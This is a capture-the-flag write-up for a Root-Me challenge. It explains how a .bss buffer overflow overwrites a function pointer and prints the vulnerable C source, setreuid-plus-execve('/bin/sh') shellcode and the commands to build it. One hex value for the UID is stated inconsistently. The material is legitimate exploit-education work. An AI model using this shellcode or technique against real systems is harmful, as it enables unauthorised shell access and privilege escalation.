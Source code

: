 
# ELF x86 - BSS buffer overflow

[Task link](https://www.root-me.org/en/Challenges/App-System/ELF-x86-BSS-buffer-overflow)

Solved: [@novitoll](https://github.com/novitoll), [@Thatskriptkid](https://github.com/Thatskriptkid)

### Source

```c
    #include <stdio.h>
    #include <stdlib.h>
     
    char username[512] = {1};
    void (*_atexit)(int) =  exit;
     
    void cp_username(char *name, const char *arg)
    {
      while((*(name++) = *(arg++)));
      *name = 0;
    }
     
    int main(int argc, char **argv)
    {
      if(argc != 2)
        {
          printf("[-] Usage : %s <username>\n", argv[0]);
          exit(0);
        }
       
      cp_username(username, argv[1]);
      printf("[+] Running program with username : %s\n", username);
       
      _atexit(0);
      return 0;
    }

```

Vuln: BoF on `username` 512-byte which is located in `.bss` section. Overflow username, smash `_atexit` ptr to point back to username buffer where we put our payload.
Note: Most of exploits you will find for this challenge are not valid anymore as your shellcode requires the change in order to run in proper UID, GID if you use [sys_setreuid16](https://syscalls.kernelgrok.com/) syscall which you can trigger via `0x46 $eax`.

### Walkthrough

`username` is located in `$ebx+0x40` which has 512 bytes (0x200) buffer:

![username](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/2.png)

and then after `$ebx+0x40+0x200` there is `_atexit` which has rvalue pointing to `exit@plt`.

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/3.png)

Let's run it with 512 "A" and "B" to fill `username` buffer and override `_atexit` with "B"s. And put the breakpoint on `0x080484f1 call   0x8048466 <cp_username>`

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/4.png)

and we can see that we control the `_atexit` ptr which goes right after our username buffer:

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/5.png)


### Shellcode

We can use this shellcode as NX-bit is disabled for us. However, we need to modify it in order to run with right UID (1207), GID (1107):

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/6.png)

For that let's take the original shellcode and create a `shellcode.nasm` and modify it. As you can see in original shellcode, it's used for getting root user `uid=0, gid=0`, so that XOR-ing `ebx, ecx` registers is enough for that and pushing to `eax 0x46` (setreuid syscall) and triggering it via `int 0x80` works.

```
  "\x6a\x46"			// push   $0x46
  "\x58"			// pop    %eax
  "\x31\xdb"			// xor	  %ebx, %ebx
  "\x31\xc9"			// xor	  %ecx, %ecx
  "\xcd\x80"			// int    $0x80
```

Now, our UID is 1207 (0x457), it's 2 bytes. If we put it to `ebx, ecx` registers which are *4 bytes* we will get extra 2 `0x00` bytes padding per each register, which will make our shellcode invalid. So we can use `bx, cx` registers which are 2-bytes and make it work. You can even split it to `bh, bl` (1-byte) into 2 instructions, but in our case `bx, cx` regs. are fine.

Here is our shellcode:

```
section .text

global _start

_start:
	push   0x46
	pop    eax
	mov    bx, 0x4b7
	mov    cx, 0x453
	int    0x80

	xor    edx, edx
	push   0xb
	pop    eax
	push   edx
	push   0x68732f2f
	push   0x6e69622f
	mov    ebx, esp
	push   edx
	push   ebx
	mov    ecx, esp
	int    0x80
```

Now create the object, make ELF executable, takes the opcodes from objdump and get the shellcode string via [this online disassembly tool](https://defuse.ca/online-x86-assembler.htm#disassembly2):

```
$ nasm -f elf -o shellcode.o shellcode.nasm
$ ld -m elf_i386 -o shellcode shellcode.o
$ objdump -d shellcode
```

And now you can PWN!

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/pwn.png)

